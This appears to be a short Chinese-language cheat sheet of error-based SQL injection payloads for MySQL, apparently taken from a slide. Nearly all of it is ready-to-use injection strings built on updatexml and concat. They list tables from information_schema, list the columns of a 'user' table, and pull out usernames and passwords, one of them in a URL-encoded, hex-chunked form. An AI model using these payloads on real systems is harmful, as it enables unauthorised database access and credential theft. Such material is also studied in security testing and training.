

# 显错注入
'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='mysql' limit 0,1),0x7e),1)--+                                  #查看当前数据库的表名
'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='user' limit 0,1),0x7e),1)--+                              #查看user表的列名
'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='user' limit 0,1),0x7e),1)--+
列用户名密码
'and updatexml(1,concat(0x7e,(select username from user limit 0,1),0x7e),1) #
'and updatexml(1,concat(0x7e,(select password from user limit 0,1),0x7e),1) #
%27and%20updatexml(1,concat(0x7e,substring(hex((select%20password%20from%20user%20limit%200,1)),44,75),0x7e),1)--+